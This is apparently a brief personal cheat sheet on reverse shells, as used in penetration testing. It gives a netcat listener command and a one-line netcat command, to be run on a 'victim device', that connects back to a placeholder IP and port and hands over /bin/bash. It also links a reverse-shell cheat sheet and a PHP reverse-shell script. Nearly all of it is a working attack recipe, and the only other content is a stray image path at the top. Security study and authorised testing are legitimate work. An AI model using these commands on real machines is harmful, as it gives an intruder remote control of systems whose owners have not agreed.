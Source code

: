 # Reverse shell

## Netcat

Start listener in terminal
Nc -lvp <port>

(-l start listener, -v verbose, -p port to listen on)

Open reverse shell remotely on victim device
Nc <ip address> <port> -e /bin/bash

https://www.golinuxcloud.com/create-reverse-shell-cheat-sheet/ 

## PHP

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php